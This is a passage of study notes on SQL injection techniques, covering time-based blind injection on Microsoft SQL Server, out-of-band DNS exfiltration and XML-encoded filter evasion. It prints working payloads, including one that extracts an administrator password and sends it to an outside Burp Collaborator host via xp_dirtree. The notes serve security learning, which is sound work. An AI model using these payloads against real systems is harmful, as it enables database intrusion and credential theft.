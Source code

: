>>- This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.
>>- The techniques for triggering a time delay are specific to the type of database being used.
>>
>>>[!example]
>>>- On Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
>>>```sql
>>>'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
>>>```
>>>- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
>>>- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.
>>>- Using this technique, we can retrieve data by testing one character at a time: 
>>>```sql
>>>'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
>>>```
>
>>[!bug] Out-Of-Band (OAST) Techniques
>>- Sometimes the application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.
>>- In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.
>>- These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.
>>- A variety of network protocols can be used for this purpose, but typically the most effective is `DNS`.
>>
>>>[!example]
>>>- Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application:
>>>```sql
>>>'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
>>>```
>>>- This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup.
>>>- This lookup allows you to view the captured password:
>>>```
>>>S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
>>>```
>>-  `OAST` techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. 
>>- `OAST` techniques are often preferable even in situations where other techniques for blind exploitation do work.
---
>[!tip] SQL injection in different contexts
>- You can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application.
>- Some websites take input in `JSON` or `XML` format and use this to query the database.
>- These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms.
>
>>[!example] 
>>- The following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:
>>```html
>><stockCheck> <productId>123</productId> <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> </stockCheck>
>>```
>>- This will be decoded server-side before being passed to the SQL interpreter.
---
>[!info] Second-order SQL injection